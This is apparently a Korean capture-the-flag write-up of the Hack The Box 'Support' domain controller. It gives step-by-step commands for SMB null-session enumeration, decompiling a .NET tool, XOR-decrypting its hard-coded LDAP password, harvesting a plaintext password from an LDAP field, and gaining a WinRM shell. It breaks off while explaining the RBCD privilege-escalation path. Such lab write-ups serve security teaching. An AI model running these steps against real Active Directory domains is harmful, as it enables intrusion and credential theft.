# Support

## Overview

| 항목 | 내용 |
|------|------|
| 머신 이름 | Support |
| OS | Windows Server 2022 (Domain Controller) |
| 난이도 | Easy |
| 도메인 | support.htb |
| 주요 취약점 | SMB null session 정보 노출, .NET 바이너리 하드코딩 크리덴셜, LDAP `info` 필드 평문 패스워드, 컴퓨터 객체 GenericAll을 통한 RBCD |
| 주요 기술 | SMB null session 열거, .NET 디컴파일, XOR 복호화, LDAP 인증 열거, BloodHound 권한 경로 분석, Resource-Based Constrained Delegation (RBCD), DCSync, Pass-the-Hash |

Support는 별도의 웹 서비스 없이 Active Directory 도메인 컨트롤러 자체를 공략하는 머신이다. 익명(null/guest session)으로 접근 가능한 SMB 공유에서 사내 제작 .NET 유틸리티(`UserInfo.exe`)를 획득해 디컴파일하고, 하드코딩된 LDAP 서비스 계정 크리덴셜을 XOR 복호화로 복구한다. 이 계정으로 LDAP을 열거해 `support` 계정의 `info` 필드에 평문으로 방치된 패스워드를 발견하고 WinRM으로 초기 셸을 얻는다. 이후 BloodHound로 `support` 계정이 속한 `Shared Support Accounts` 그룹이 도메인 컨트롤러 컴퓨터 객체에 `GenericAll` 권한을 가진 것을 확인하고, 이를 RBCD 공격으로 연결해 Administrator를 사칭한 Kerberos 티켓을 발급받는다. 최종적으로 DCSync로 Administrator 해시를 덤프하고 Pass-the-Hash로 도메인 관리자 권한을 획득한다.

전체 공격은 단일 취약점이 아니라 "정보 노출 → 크리덴셜 복구 → 권한 위임 남용"으로 이어지는 누적 경로를 따라간다. 각 단계에서 "왜 이 파일인지, 왜 이 계정인지, 왜 이 권한이 치명적인지"를 권한 관계로 설명하는 것이 이 머신의 핵심이다.

---

## Enumeration

### TCP Port Scan

도메인 컨트롤러인지부터 포트 구성으로 판단한다. AD/DC는 특유의 포트 조합(Kerberos, LDAP, SMB, DNS)을 노출하기 때문에 nmap 결과만으로도 성격을 빠르게 특정할 수 있다.

```bash
nmap -sC -sV 10.129.18.1
```



| 포트 | 서비스 | 비고 |
|------|--------|------|
| 53/tcp | DNS (Simple DNS Plus) | 도메인 DNS |
| 88/tcp | Kerberos | **AD 인증 핵심 포트** |
| 135/tcp | MSRPC | |
| 139/445 tcp | NetBIOS / SMB | Windows Server 2022 |
| 389/3268 tcp | LDAP | Domain: `support.htb` |
| 464/tcp | kpasswd | Kerberos 패스워드 변경 |
| 593/tcp | RPC over HTTP | |
| 636/3269 tcp | LDAPS | |
| 5985/tcp | WinRM (HTTP) | **원격 셸 획득 경로** |

88(Kerberos) + 389(LDAP) + 445(SMB) 조합으로 이 호스트가 도메인 컨트롤러임이 확정된다. 호스트 정보에서 도메인 `support.htb`, 컴퓨터명 `DC`가 드러난다. SMB signing이 `enabled and required` 상태인 것도 확인된다. 5985(WinRM)가 열려 있다는 점이 중요한데, 유효한 자격증명만 확보하면 Evil-WinRM으로 바로 셸을 얻을 수 있는 경로가 된다.

### /etc/hosts 설정

이후 Kerberos 인증과 LDAP은 호스트명 기반으로 동작하므로 도메인과 FQDN을 hosts에 등록한다. IP만으로 진행하면 Kerberos 단계에서 이름 해석 실패가 발생한다.

```bash
echo "10.129.18.1 support.htb dc.support.htb" | sudo tee -a /etc/hosts
```

### SMB Null / Guest Session 확인

AD가 인증 없는 SMB 세션을 허용하면 자격증명 없이도 정보 열거가 가능하다. crackmapexec로 null session(빈 사용자·빈 패스워드)과 guest 계정 접근 여부를 확인한다.

```bash
crackmapexec smb 10.129.18.1 -u '' -p ''
crackmapexec smb 10.129.18.1 -u 'guest' -p ''
```



두 경우 모두 `[+]`로 인증이 성공한다. 관리자 권한(`Pwn3d!`)은 없지만 SMB 접근 자체는 열려 있어, 익명/guest로 공유 목록과 파일 접근을 시도해볼 수 있다는 의미다.

### SMB 공유 열거

guest 계정으로 접근 가능한 공유 목록과 각 공유의 권한을 확인한다. `--shares` 옵션은 공유별 READ/WRITE 권한까지 함께 출력해준다.

```bash
crackmapexec smb 10.129.18.1 -u 'guest' -p '' --shares
```



| 공유 | 권한 | 의미 |
|------|------|------|
| ADMIN$, C$ | 없음 | 관리자 전용, 접근 불가 |
| IPC$ | READ | null session 표준 |
| NETLOGON, SYSVOL | 없음 | guest로 접근 불가 |
| **support-tools** | **READ** | **비표준 커스텀 공유, 탐색 대상** |

`support-tools`는 기본 Windows 공유가 아닌 커스텀 공유이며 "support staff tools"라는 설명이 붙어 있다. 사내에서 의도적으로 만든 공유이므로 유의미한 파일이 존재할 가능성이 높다.

### support-tools 공유 탐색

`smbclient`로 공유에 접속해 파일 목록을 확인하고 의심스러운 파일을 다운로드한다.

```bash
smbclient //10.129.18.1/support-tools -N
smb: \> ls
smb: \> get UserInfo.exe.zip
```



대부분의 파일(7-Zip, Notepad++, PuTTY, SysinternalsSuite, WinDirStat, Wireshark)은 공개된 범용 IT 도구이며 날짜도 동일하다(5월 28일). 그러나 `UserInfo.exe.zip`만 날짜가 다르고(7월 21일) 이름도 범용 도구가 아니다. 사내에서 직접 제작한 유틸리티일 가능성이 높아 우선 분석 대상으로 선정한다. 커스텀 바이너리는 하드코딩된 크리덴셜, LDAP 쿼리 로직, API 키 등을 포함하는 경우가 많다.

---

## Initial Foothold

### UserInfo.exe 파일 타입 분석

다운로드한 zip을 해제하고 바이너리 타입을 확인한다.

```bash
unzip UserInfo.exe.zip
file UserInfo.exe
```



```
UserInfo.exe: PE32 executable for MS Windows 6.00 (console), Intel i386 Mono/.Net assembly, 3 sections
```

**.NET 어셈블리**임이 확인된다. 이것이 중요한 이유는, 일반 C/C++ 네이티브 바이너리와 달리 .NET은 IL(Intermediate Language)로 컴파일되어 디컴파일 시 거의 원본 소스코드 수준으로 복원이 가능하기 때문이다. `strings`로 1차 확인 시 `getPassword`, `enc_password`, `LdapQuery` 같은 함수/필드명이 노출되어 LDAP 인증 로직과 암호화된 패스워드가 내장되어 있음을 짐작할 수 있다.

### .NET 디컴파일 — 복호화 로직 분석

`ilspycmd`로 .NET 어셈블리를 C# 소스로 디컴파일하고, 크리덴셜 관련 키워드를 추출한다. (ARM64 Kali에서 dotnet 설치가 불안정해 macOS의 dotnet 환경에서 디컴파일을 수행했다.)

```bash
ilspycmd UserInfo.exe > decompiled.cs
grep -iE "password|enc_password|ldap|getPassword" decompiled.cs -A 10
```



디컴파일 결과 핵심 로직이 그대로 드러난다.

```csharp
private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
private static byte[] key = Encoding.ASCII.GetBytes("armando");

public static string getPassword()
{
    byte[] array = Convert.FromBase64String(enc_password);
    byte[] array2 = array;
    for (int i = 0; i < array.Length; i++)
    {
        array2[i] = (byte)(array[i] ^ key[i % key.Length] ^ 0xDF);
    }
    return Encoding.Default.GetString(array2);
}
```

```csharp
string password = Protected.getPassword();
entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
```

복호화 로직과 LDAP 연결에 사용되는 계정(`support\ldap`)이 모두 노출된다. 복호화는 다음 3단계로 구성된다.

1. `enc_password`를 Base64 디코딩
2. 7바이트 key(`armando`)를 순환하며 XOR (인덱스 mod 7)
3. 고정값 `0xDF`로 추가 XOR (단순 난독화 목적)

### XOR 복호화 — ldap 계정 패스워드 복구

디컴파일로 확인한 로직을 Python으로 그대로 재현해 패스워드를 복호화한다.

```bash
python3 -c "
import base64
enc = '0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E'
key = b'armando'
data = base64.b64decode(enc)
result = bytes([data[i] ^ key[i % len(key)] ^ 0xDF for i in range(len(data))])
print(result.decode())
"
```



| 계정 | 패스워드 |
|------|----------|
| support\ldap | `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz` |

이 `ldap` 계정은 `UserInfo.exe`가 AD에 LDAP 쿼리를 날릴 때 사용하는 애플리케이션 서비스 계정이다.

### LDAP 인증 열거 — support 계정 info 필드 발견

복구한 `ldap` 계정으로 인증된 LDAP 쿼리를 수행한다. AD 머신에서는 관리자가 `description`이나 `info` 필드에 패스워드를 메모해두는 패턴이 자주 발견되므로 두 속성을 함께 요청한다.

```bash
ldapsearch -x -H ldap://10.129.18.1 \
  -D "ldap@support.htb" \
  -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
  -b "DC=support,DC=htb" \
  "(objectClass=user)" sAMAccountName description info
```



`support` 계정의 `info` 필드에 패스워드로 보이는 문자열이 평문으로 노출되어 있다.

```
# support, Users, support.htb
info: Ironside47pleasure40Watchful
sAMAccountName: support
```

| 계정 | 패스워드 |
|------|----------|
| support | `Ironside47pleasure40Watchful` |

### 자격증명 검증 및 WinRM 접근 확인

획득한 `support` 계정 크리덴셜의 유효성을 SMB와 WinRM에서 검증한다.

```bash
crackmapexec smb 10.129.18.1 -u 'support' -p 'Ironside47pleasure40Watchful'
crackmapexec winrm 10.129.18.1 -u 'support' -p 'Ironside47pleasure40Watchful'
```



WinRM 결과에 `(Pwn3d!)`가 표시된다. `support` 계정이 `Remote Management Users` 그룹에 속해 있어 Evil-WinRM으로 원격 셸을 획득할 수 있다는 의미다.

### Evil-WinRM 초기 접속

```bash
evil-winrm -i 10.129.18.1 -u support -p 'Ironside47pleasure40Watchful'
```



### User Flag

```powershell
cd C:\Users\support\Desktop
type user.txt
```


---

## Privilege Escalation

### 현재 권한 정찰 — whoami /all

권한 상승 경로를 찾기 위해 현재 계정의 그룹 멤버십과 특수 권한을 확인한다. AD에서는 토큰 권한보다 **그룹 멤버십**이 경로를 여는 경우가 많으므로 그룹을 우선 본다.

```powershell
whoami /all
```



두 가지가 핵심이다.

- **`SUPPORT\Shared Support Accounts` 그룹 멤버십**: 기본 그룹이 아닌 커스텀 그룹이다. 이런 비표준 그룹은 도메인 객체에 특수한 ACL을 가진 경우가 많아 우선 조사 대상이다.
- **`SeMachineAccountPrivilege` (Enabled)**: 도메인에 컴퓨터 계정을 추가할 수 있는 권한이다. 이 권한 단독으로는 의미가 약하지만, 컴퓨터 객체에 대한 쓰기 권한과 결합되면 RBCD 공격의 핵심 재료가 된다.

Privileges 섹션에는 `SeImpersonate` 같은 직접적인 LPE 권한이 없다. 즉 토큰 기반 권한 상승은 불가능하고, 그룹 멤버십과 ACL 기반 경로로 가야 함이 확정된다.

### BloodHound 데이터 수집

권한 관계를 시각화하기 위해 BloodHound 데이터를 수집한다. 타겟에서 SharpHound.exe를 실행하는 것보다 Kali에서 직접 LDAP/SMB로 수집하는 `bloodhound-python`이 안정적이다.

```bash
bloodhound-python -u support -p 'Ironside47pleasure40Watchful' -d support.htb -ns 10.129.20.107 -c all
```



수집된 JSON을 zip으로 묶어 BloodHound CE의 File Ingest에 업로드한다. (Kali의 ARM 환경에서 BloodHound 구동이 불안정해, macOS의 Docker 기반 BloodHound CE에서 분석하는 것이 안정적이다.)

### 공격 경로 시각화 — Shared Support Accounts → GenericAll → DC

`SUPPORT@SUPPORT.HTB` 노드의 Outbound Object Control을 조회하면 공격 경로가 한눈에 드러난다.



```
SUPPORT (user)
  --MemberOf-->  SHARED SUPPORT ACCOUNTS (group)
  --GenericAll-->  DC.SUPPORT.HTB (computer)
```

`support` 계정은 `Shared Support Accounts` 그룹 멤버이며, 이 그룹이 도메인 컨트롤러 컴퓨터 객체 `DC.SUPPORT.HTB`에 대해 **GenericAll** 권한을 가진다. 그룹에 걸린 ACL은 멤버 전체에게 상속되므로, `support` 계정은 사실상 DC 컴퓨터 객체의 모든 속성을 마음대로 쓸 수 있다.

### GenericAll + SeMachineAccountPrivilege → RBCD 개념

**GenericAll**은 객체에 대한 완전한 제어 권한이다. 컴퓨터 객체에 대해 이 권한이 있으면 `msDS-AllowedToActOnBehalfOfOtherIdentity` 속성을 직접 쓸 수 있다. 이 속성은 "이 컴퓨터(DC)에 대해 누가 위임(RBCD)을 수행할 수 있는가"를 정의한다.

**RBCD (Resource-Based Constrained Delegation)** 는 Kerberos 위임의 한 형태로, "대상 리소스 측"에서 어떤 신원의 위임을 신뢰할지 결정하는 방식이다. whoami에서 확인한 `SeMachineAccountPrivilege`(컴퓨터 계정 추가 권한)와 결합하면 다음 경로가 성립한다.

1. `SeMachineAccountPrivilege`로 공격자가 통제하는 가짜 컴퓨터 계정을 도메인에 생성한다.
2. GenericAll로 DC 객체의 `msDS-AllowedToActOnBehalfOfOtherIdentity`에 그 가짜 컴퓨터 계정을 등록한다(= S4U2Proxy가 통과될 조건을 만든다).
